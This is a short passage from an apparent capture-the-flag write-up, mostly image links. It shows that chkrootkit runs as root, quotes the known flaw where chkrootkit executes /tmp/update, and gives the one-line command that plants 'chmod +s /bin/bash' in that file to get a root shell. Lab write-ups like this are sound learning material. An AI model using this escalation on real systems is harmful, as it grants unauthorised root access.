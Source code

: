 ![](assets/Pasted%20image%2020250612095534.png)

`chkrootkit` is being executed, so searching with `searchsploit`

![](assets/Pasted%20image%2020250612100029.png)

```shell
Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
```

```shell
amrois@nineveh:/tmp$ echo 'chmod +s /bin/bash' > update && chmod +x update
```

![](assets/Pasted%20image%2020250612100235.png)
